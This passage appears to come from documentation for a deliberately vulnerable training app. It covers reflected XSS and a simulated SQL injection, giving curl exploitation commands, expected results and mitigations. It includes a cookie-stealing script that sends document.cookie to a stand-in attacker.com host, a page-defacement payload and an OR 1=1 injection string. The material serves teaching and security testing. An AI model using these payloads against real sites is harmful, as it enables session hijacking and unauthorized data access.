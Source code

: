 **Expected Result**: The response contains the unescaped `<img>` tag with `onerror` handler.

#### Cookie stealing payload:
```bash
curl "http://localhost:9000/greet?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Fattacker.com%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%3C%2Fscript%3E"
```

#### DOM manipulation:
```bash
curl "http://localhost:9000/greet?name=%3Cscript%3Edocument.body.innerHTML%3D%27HACKED%27%3C%2Fscript%3E"
```

### Mitigation
- HTML encode all user input before rendering
- Use Content Security Policy (CSP) headers
- Implement proper output encoding

---

## Vulnerability 2: SQL Injection (Simulated)

### Endpoint
`GET /search?q=<query>`

### Description
The search query is concatenated directly into a SQL-like query string without parameterization. In this simulation, queries containing `' OR '` or `1=1` return all products.

### Impact
- Unauthorized data access
- Data exfiltration
- Authentication bypass
- Database modification/deletion

### Exploitation

#### Basic OR-based injection:
```bash
curl "http://localhost:9000/search?q=laptop'%20OR%20'1'='1"
```

**Expected Result**: Returns all 4 products instead of just those matching "laptop":
```html
<ul>
  <li>Laptop - $999.99</li>
  <li>Mouse - $29.99</li>
  <li>Keyboard - $79.99</li>
  <li>Monitor - $299.99</li>
</ul>
```
